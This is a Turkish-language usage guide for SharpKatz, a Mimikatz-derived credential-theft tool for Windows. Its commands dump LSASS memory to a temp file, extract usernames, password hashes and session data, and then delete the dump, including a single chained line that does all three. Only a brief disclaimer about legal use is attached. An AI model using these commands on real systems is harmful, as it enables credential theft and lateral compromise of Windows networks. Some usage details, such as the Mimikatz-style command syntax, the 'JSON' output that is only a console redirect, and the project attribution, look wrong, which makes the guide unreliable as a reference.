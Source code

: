 # SharpKatz.exe Kullanım Kılavuzu

## Giriş
SharpKatz, Gentilkiwi'nin Mimikatz projesinden türetilmiş, C# dilinde yazılmış ve kimlik doğrulama bilgilerini çıkarmak için kullanılan bir araçtır. Özellikle Windows sistemlerinde hassas bilgileri ele geçirmek için kullanılır.

---

## Özellikler
- **LSASS Minidump**: LSASS sürecini bir minidump dosyasına yazar ve kimlik bilgilerini çıkarır.
- **Sekurlsa**: Minidump dosyasından oturum bilgilerini alır.
- **Taşınabilirlik**: Çeşitli sistemlerde çalışabilir.
- **Hızlı ve Verimli**: LSASS verilerini hızlı bir şekilde işler.

---

## Gereksinimler
- Windows işletim sistemi
- .NET Framework 4.5 veya daha üstü

---

## Komut Satırı Kullanımı

### Yardım Mesajını Görüntüleme
Mevcut komutları ve özellikleri görmek için:
```cmd
SharpKatz.exe -h
```

### LSASS Minidump Oluşturma
Bir LSASS minidump dosyası oluşturmak için:
```cmd
SharpKatz.exe dump
```
Varsayılan olarak, minidump dosyası `C:\Windows\Temp\debug.bin` konumuna kaydedilir.

### LSASS Verilerini Çıkarma
Minidump dosyasını okuyup kimlik bilgilerini çıkarmak için:
```cmd
SharpKatz.exe sekurlsa::minidump C:\Windows\Temp\debug.bin
```
Bu komut, kullanıcı adı, şifre hash'leri ve oturum bilgilerini döker.

### LSASS Bilgilerini Temizleme
Oluşturulan minidump dosyasını kaldırmak için:
```cmd
del C:\Windows\Temp\debug.bin
```

---

## Örnek Kullanımlar

### Tüm Süreci Otomatikleştirme
SharpKatz ile LSASS bilgilerini hızlıca çıkarıp temizlemek için:
```cmd
SharpKatz.exe dump && SharpKatz.exe sekurlsa::minidump C:\Windows\Temp\debug.bin && del C:\Windows\Temp\debug.bin
```

### JSON Formatında Çıktı Alma
Çıktıları JSON formatında kaydetmek için:
```cmd
SharpKatz.exe sekurlsa::minidump C:\Windows\Temp\debug.bin > output.json
```

---

## Güvenlik Uyarısı
SharpKatz, güçlü bir araçtır ve yalnızca yasal ve etik amaçlar için kullanılmalıdır. Araç, kötüye kullanım durumunda ciddi yasal sonuçlara yol açabilir.

---

## Derleme Talimatları
SharpKatz kaynak koddan derlenebilir.

### Adımlar:
1. Visual Studio Community Edition'ı yükleyin.
2. Projeyi açın (`SharpKatz.sln`).
3. Çözüm yapılandırmasını "Release" olarak seçin.
4. Projeyi derleyin.

---

## Kaynaklar
- [SharpKatz GitHub](https://github.com/GhostPack/SharpKatz)
- [Mimikatz Resmi Sitesi](https://blog.gentilkiwi.com/mimikatz)

Bu rehber, SharpKatz aracını kullanmanın temel adımlarını kapsamaktadır. Daha fazla bilgi için yukarıdaki bağlantılara göz atabilirsiniz.
